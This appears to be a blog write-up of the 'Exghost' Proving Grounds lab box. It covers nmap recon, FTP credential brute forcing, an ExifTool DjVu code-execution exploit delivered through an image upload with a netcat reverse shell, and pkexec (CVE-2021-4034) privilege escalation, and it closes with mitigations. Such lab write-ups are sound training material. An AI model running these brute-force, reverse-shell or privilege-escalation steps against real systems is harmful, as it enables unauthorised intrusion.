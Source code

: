 # **Exghost | PG Practice**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/9cad8129-e6fb-4117-8e8a-cd331b4d7611)

***

## **Reconnaissance**

Running an nmap scan the following ports where found


```
# Nmap 7.94SVN scan initiated Wed May 29 09:02:43 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.235.183
Nmap scan report for 192.168.235.183
Host is up (0.15s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
80/tcp open   http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: Host: 127.0.0.1; OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 29 09:05:07 2024 -- 1 IP address (1 host up) scanned in 144.47 seconds
```


Enumerating FTP I don't have access to login anonymously 



![](https://i.imgur.com/69qqsim.png)


Navigating to the website endpoint we have this 403 forbidden page


![](https://i.imgur.com/zQfRlXj.png)



I was able to fuzz for an `/uploads` directory but turns out to still be 403 Forbidden, all 403 bypass proof failed and i knew this was a dead end.


![](https://i.imgur.com/9BhAqgF.png)


However i felt like bruteforcing FTP might be a quick win for me sooo i decided to use the tool from GitHub which gave me a valid username and password



```bash
git clone https://github.com/rix4uni/FTPBruteForce.git
cd FTPBruteForce
go get -u github.com/jlaffaye/ftp
go run ftp-brute-force-default-credentails.go -ip 192.168.235.183:21
```



![](https://i.imgur.com/2mI2tOi.png)



Upon login in i found a backup file and downloaded it to my own machine


![](https://i.imgur.com/x947LFM.png)


Analyzing the backup file with wireshark and looking for captured HTTP packets i found an `exiftool` version



![](https://i.imgur.com/uJVYXnR.png)



Also found out i was able to upload files within an endpoint called `/exiftest.php`



![](https://i.imgur.com/3gcafFc.png)



Which turns out to be true while using the `curl` utility, The below command uploads a local file or send data that is typically submitted via web forms with the `-F` option and `-v` for verbosity.


Also take note of the parameter "`myFile`" as this was the variable given in the above screenshot


```
curl -F "myFile=@./LOCALFILE" http://192.168.235.183/exiftest.php -v
```


![](https://i.imgur.com/N0Jl768.png)



## **Foothold**



Using this [blog](https://www.exploit-db.com/exploits/50911) i was able to create a malicious `.jpeg` file due to Improper neutralization of user data in the `DjVu` file format in `ExifTool` versions 7.44 and up that allows arbitrary code execution when parsing the malicious image.


```
python3 exploit.py -s 192.168.45.219 4444
```


![](https://i.imgur.com/iGiNvWg.png)


Then uploaded it using `curl` and got a reverse shell with `netcat`


```bash
curl -F "myFile=@./image.jpg" http://192.168.180.183/exiftest.php -v

nc -lvnp 4444
```


![](https://i.imgur.com/onmclmB.png)



## **Privilege Escalation**



Running `linpeas.sh` on the machine i discovered few SUID binaries exploits, This was real pain as i had to go over each of them and see which was the quick win 🤦‍♀️


![](https://i.imgur.com/ML0n3DP.png)





Well, privilege escalation was done via the `pkexec` exploit popularly know as `CVE-2021-4034`


> Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).


You can get the python exploit from [here](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) since most of the `C` exploits don't work 


![](https://i.imgur.com/Y4aZ2Ln.png)




## **Mitigations** 


- Change default credentials of the `FTP` server to strong, unique passwords and username.
- Replace `FTP` with a more secure protocol such as `SFTP` (Secure File Transfer Protocol) or FTPS (FTP Secure).
- Ensure `ExifTool` is updated to the latest version that includes the security patch, better still remove or restrict `ExifTool` Usage
- Update the `Polkit` package or Disable `pkexec` : `sudo chmod 0755 /usr/bin/pkexec`



Have fun xD


## **Status Check** ⚠️


I shouldn't be playing boxes 🤣, i have got exams next week but hell yeah, i really don't wanna be far away from doing this. However i might limit all of this in the coming months, Take of yourselves Fellas :)



![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/a2d7b812-fdd1-450d-8b9a-6690215a8b1c)



